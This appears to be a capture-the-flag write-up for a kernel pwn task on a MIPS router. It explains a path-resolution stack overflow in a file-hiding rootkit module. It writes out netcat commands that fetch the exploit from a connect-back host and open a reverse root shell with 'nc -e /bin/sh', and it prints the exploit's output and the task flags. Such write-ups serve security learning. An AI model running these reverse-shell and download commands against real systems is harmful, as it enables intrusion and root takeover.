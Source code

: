 ## Infos

**Author**: awe
**Category**: Pwn
**Difficulty**: Hard

## Description:

  Our router seems to have a weird kernel module installed... Abuse it to get root!

  Connect to it with:
  ```bash
  ssh rootkit@rootkit.insomni.hack
  Password: flag of the "microwave" task
  ```

## Solution:

The target is a very simple rootkit running on a MIPS system. It creates a `/dev/rootkit` device, which can be used to hide files on the filesystem by hooking functions used to list directories. Example interaction:
  ```bash
  echo +/home > /dev/rootkit   # Hide /home and all subdirectories
  cat /dev/rootkit             # Show hidden paths in dmesg
  ls /                         # No /home anymore
  echo -/home > /dev/rootkit   # Unhide /home
  ```

  The `resolve_path` function constructs the fullpath from a `dentry` struct, which is later used to compare against the list of hidden paths. It checks that the length of the current directory/filename is not more than the number of bytes available in the destination buffer, but actually recurses without taking the `"/"` character it inserts to join directory/file names into account. It results in a buffer overflow, where each new resolved subdirectory allows to increase the overflow size by one byte. It takes around 48 nested directories to get control over PC.

  Exploiting kernel stack buffer overflows is straight-forward however cleaning the stack in MIPS can be a pain... A nice trick here is to use the `usermodehelper` (http://www.ibm.com/developerworks/library/l-user-space-apps/) to spawn a userland connect-back shell, which is a easy CTF-style workaround. It's very dirty though, kernel will crash once that shell is closed since there was no cleanup ;)

### Exploit:

**Connect with :**

```bash
ssh rootkit@rootkit.insomni.hack
Pass: INS{L3ts g3t th1s party start3d}
```

**Send the exploit to the VM:**

  LOCAL:
  ```bash
nc -lvp 1338 < ./exploit
```

  REMOTE:
```bash
cd /home/pwner/ && nc <connect_back_ip> 1338 > exploit && chmod +x ./exploit
```

**Exploit:**

  LOCAL:
```bash
nc -lvp 1337
```

  REMOTE:
```bash
./exploit 'nc <connect_back_ip> 1337 -e /bin/sh'
```

**Profit!:**

  LOCAL:
```bash
cat /root/flag
```

## Exploit output:

```bash
Linux version 4.5.0 (root@gentoo) (gcc version 4.9.1 (crosstool-NG 1.20.0) ) #3 SMP Mon Mar 14 15:19:58 CET 2016
earlycon: Early serial console at I/O port 0x3f8 (options '38400n8')
bootconsole [uart0] enabled
CPU0 revision is: 00019300 (MIPS 24Kc)
FPU revision is: 00739300
MIPS: machine is mti,malta
Software DMA cache coherency enabled
Determined physical RAM map:
 memory: 03ffc000 @ 00000000 (usable)
kernel.dmesg_restrict = 1
route: SIOCDELRT: No such process
/ $ cd /home/pwner/
~ $ nc 192.168.2.22 1338 > exploit
~ $ chmod +x exploit
~ $ ./exploit 'nc 192.168.2.22 1337 -e /bin/sh'
[+] Resolving kernel addresses...
 [+] Resolved commit_creds to 0x80147ae0
 [+] Resolved prepare_kernel_cred to 0x80147e54
 [+] Resolved call_usermodehelper_setup to 0x8013c054
 [+] Resolved call_usermodehelper_exec to 0x8013c51c
[+] mmap the payload...
[+] Writting jump shellcode @ 0x61627364
[+] Create directories...
[+] Hide /home...
[+] Trigger stack buffer overflow ...
CPU 0 Unable to handle kernel paging request at virtual address 63642f60, epc == 63642f61, ra == 8013c484
Oops[#1]:
CPU: 0 PID: 934 Comm: kworker/u2:2 Tainted: G           O    4.5.0 #3
task: 820aa5d8 ti: 82d94000 task.ti: 82d94000
$ 0   : 00000000 00000001 63642f61 00000000
$ 4   : 82bc0f00 82bc0a00 0000003f ffffffff
$ 8   : 0000003f ffffffff 8069ef48 87ef0740
$12   : 00000000 00000000 00000000 00000000
$16   : 82bc0a00 82bc0f00 8071a41c 80698900
$20   : 82a88e1c 00000001 00000000 82a88cc0
$24   : 00000000 801578e8
$28   : 82d94000 82d97f00 82a88e80 8013c484
Hi    : 00fa83b2
Lo    : 7d71e1f9
epc   : 63642f61 0x63642f61
ra    : 8013c484 call_usermodehelper_exec_async+0xfc/0x194
Status: 1000a703	KERNEL EXL IE
Cause : 10800008 (ExcCode 02)
BadVA : 63642f60
PrId  : 00019300 (MIPS 24Kc)
Modules linked in: rootkit(O)
Process kworker/u2:2 (pid: 934, threadinfo=82d94000, task=820aa5d8, tls=00000000)
Stack : 8013c388 82bc0f00 823252d8 8014f898 00000000 00000000 8013c388 82bc0f00
	  823252d8 801061d8 00000000 00000000 00000000 00000000 00000000 00000000
	  00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
	  00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
	  00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
	  ...
Call Trace:
[<8013c388>] call_usermodehelper_exec_async+0x0/0x194
[<8014f898>] schedule_tail+0x10/0x70
[<8013c388>] call_usermodehelper_exec_async+0x0/0x194
[<801061d8>] ret_from_kernel_thread+0x14/0x1c


Code: (Bad address in epc)

---[ end trace 5004159a0a669eab ]---
Fatal exception: panic in 5 secondsqemu-system-mips: terminating on signal 2
```

Meanwhile:
```bash
gentoo src # nc -lvp 1338 < exploit
listening on [any] 1338 ...
192.168.2.22: inverse host lookup failed:
connect to [192.168.2.22] from (UNKNOWN) [192.168.2.22] 37612
^C
gentoo src # nc -lvp 1337
listening on [any] 1337 ...
192.168.2.22: inverse host lookup failed:
connect to [192.168.2.22] from (UNKNOWN) [192.168.2.22] 42926
id
uid=0(root) gid=0(root)
cat /root/flag
INS{grsec's RBAC would be a much better rootkit!}
```

The kernel panic happens when the connect-back is closed.
